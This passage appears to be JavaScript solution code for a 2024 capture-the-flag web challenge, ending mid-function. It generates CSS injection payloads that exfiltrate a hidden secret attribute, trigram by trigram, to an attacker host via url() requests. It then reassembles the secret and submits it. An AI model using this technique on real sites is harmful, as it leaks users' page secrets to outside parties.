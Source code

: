 ``` js

for(let str of arr3) {
    payload3 += `:host-context(*[secret*="${str}"]){--${str}:url("${BASE}/leak?q=${str}")}\n`
    crossPayload3 = `-webkit-cross-fade(${crossPayload3}, var(--${str}, none), 50%)`
}

payload1 = `${payload1} .p1{background-image:${crossPayload1} }`
payload2 = `${payload2} .p2{background-image:${crossPayload2} }`
payload3 = `${payload3} .p3{background-image:${crossPayload3} }`

function filterFirst(arr, item) {
  const result = []
  let found = false
  for(let a of arr) {
    if (a===item && !found) {
      found = true
      continue
    }
    result.push(a)
  }
  return result
}

async function getFlag(secret) {
  return fetch('https://in-the-shadows-web.2024.ctfcompetition.com/check-secret?secret=' + secret).then(res => res.text()).then((text) => {
    if (text !== 'Invalid secret') {
      console.log(text)
    }
  }).catch(err => console.log('err', err.message))
}

function mergeWords(arr, ending) {
  if (arr.length === 0) return ending
  if (!ending) {
    for(let i=0; i<arr.length; i++) {
      let isFound = false
      for(let j=0; j<arr.length; j++) {
        if (i === j) continue

        let suffix = arr[i][1] + arr[i][2] 
        let prefix = arr[j][0] + arr[j][1]

        if (suffix === prefix) {
          isFound = true
          continue
        }
      }
      if (!isFound) {
        console.log('ending:', arr[i])
        return mergeWords(filterFirst(arr, arr[i]), arr[i])
      }
    }

    console.log('Error, please try again')
    return
  }

  let found = []
  for(let i=0; i<arr.length; i++) {
    let length = ending.length
    let suffix = ending[0] + ending[1]
    let prefix = arr[i][1] + arr[i][2]
```